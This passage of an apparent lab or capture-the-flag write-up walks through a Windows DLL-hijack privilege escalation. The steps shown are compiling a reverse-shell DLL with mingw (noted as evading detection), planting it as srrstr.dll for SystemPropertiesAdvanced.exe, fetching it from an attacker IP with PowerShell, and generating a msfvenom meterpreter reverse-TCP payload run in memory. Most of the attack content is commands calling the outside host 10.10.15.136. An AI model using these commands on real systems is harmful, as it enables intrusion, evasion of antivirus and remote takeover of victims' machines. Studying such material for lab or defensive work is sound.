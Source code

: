 rev_shell.h

```
#pragma Once
void rev_shell();
```

The last part compiling is tricky i used mingw to compile it was able to evade detection. There is a small catch, the library that windows uses to compile this is named differently in the linux enviroment wine etc. The order in which we list the files when it is compiled matters. this switch has to be at the end of the string  -lws2_32. you may also compile this in x64.

https://blog.didierstevens.com/2018/07/10/quickpost-compiling-dlls-with-mingw-on-kali/

```
i686-w64-mingw32-gcc -shared -o DemoDll-x86.dll dllmain.cpp revshell.cpp rev_shell.h -lws2_32
```

this wont work xD but nice for notes below is x64

```
x86_64-w64-mingw32-gcc -shared -o DemoDll-x86.dll dllmain.cpp revshell.cpp rev_shell.h -lws2_32
```

now we will download the malcious dll drop it to disc.we have to name the dll srrstr.dll because thats why systempropertiesadvanced.exe calls.

```
cd C:\Users\Batman\AppData\Local\Microsoft\WindowsApps
```

```
powershell IWR "http://10.10.15.136/DemoDll-x86.dll" -OutFile srrstr.dll
```

powershell IWR "http://10.10.15.136/DemoDll-x86.dll" -OutFile srrstr.dll

now we have to craft a meterpreter shell using msfvenom im going with powershell. but there are other more stealthy options. there are a few missing flags but we don't need those. 

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.15.136 lport=19135 -f psh -o death.ps1
```

now we run the payload in memory and get our meterpreter shell then migrate into a new process. 

![step5](step5.PNG)
